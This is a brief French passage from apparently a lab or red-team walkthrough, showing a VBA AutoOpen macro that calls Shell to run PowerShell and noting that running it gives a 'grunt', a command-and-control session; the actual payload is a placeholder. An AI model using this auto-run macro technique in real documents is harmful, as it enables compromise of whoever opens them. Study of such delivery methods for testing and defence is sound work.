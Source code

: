 Dans l'éditeur, mettre le code du payload

```
Sub AutoOpen()
	Call Shell("powershell blabliblablabla")
End Sub
```

![526529edce21a21cad7df6241bfa4265.png](/img/d2c8d9a7d0be4c5c972089b30cf2854d.png)

Lancer le code et on a un grunt

![5c3d970e97c25b6386ada7d1fc648386.png](/img/bb4c1728ac734bcb885a2a4a347fb35d.png)
